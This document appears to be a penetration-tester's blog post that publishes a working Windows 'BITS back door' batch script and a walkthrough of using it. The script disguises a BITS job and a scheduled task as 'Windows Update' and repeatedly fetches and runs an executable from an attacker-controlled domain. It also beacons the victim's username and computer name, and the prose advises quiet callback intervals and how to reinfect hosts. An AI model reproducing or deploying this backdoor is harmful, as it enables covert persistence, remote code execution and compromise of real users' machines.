

# ------------------- BITS BACK DOOR ----------------------
# Themson Mester - 03/06/2014
# Configure: /AddFile <Domain> | /MO <Minutes> | /ED <DATE> | /ET <Time>
cd %TEMP%
bitsadmin /Reset > NUL
bitsadmin /Create "Windows Update" > NUL
bitsadmin /AddFile "Windows Update" http://<Domain>.com/kb%RANDOM%.exe %TEMP%\kb7468656d.exe > NUL
bitsadmin /SetNotifyFlags "Windows Update" 1 > NUL
bitsadmin.exe /SetNotifyCmdLine "Windows Update" "%COMSPEC%" "cmd.exe /c bitsadmin.exe /complete \"Windows Update\" && start /B %TEMP%\kb7468656d.exe" > NUL
bitsadmin /SetMinRetryDelay "Windows Update" 120 > NUL
bitsadmin /SetCustomHeaders "Windows Update" "Caller:%USERNAME%@%COMPUTERNAME%" > NUL
schtasks /delete /TN "Windows Update" /F
schtasks /CREATE /TN "Windows Update" /TR "%WINDIR%\system32\bitsadmin.exe /Resume \"Windows Update\"" /SC minute /MO 60 /ED 03/14/2014 /ET 09:00 /Z /IT /RU %USERNAME% > NUL
bitsadmin /List
schtasks /Run /TN "Windows Update"
schtasks /Query /TN "Windows Update"
# ------------------- EOF ---- them ---- EOF ---------------------
Deploy the Backdoor:
A callback interval of 2 minutes is used for testing, 60-90 minutes is quieter for actual use.

Phoning Home:
The initial schtasks /run triggers our first phone home as seen in our monitoring log.

Losing our Session:
After killing the session, I rebooted the box, then logged on, off, and on again as two different users.
Our backdoor phones home soon after the user under whom it was deployed logs on.

Reinfecting the Host:
We deploy a payload using the custom trigger-file name for the machine we wish to target.

Host Acquires Payload:
The host whose trigger-file we used pulls down our payload.

Back in Business:
Successful transfer triggers /SetNotifyCmdLine to /Complete our download and executes the payload.
I used a self-deleting PE, you could also use a blank file to trigger a reflective powershell execution.

At this point the BITS job is removed.
You can redeploy the backdoor by pasting it back into your shell.
If you ever need to preemptively clean the backdoor use:
bitsadmin /reset && schtasks /delete /TN <taskname> /F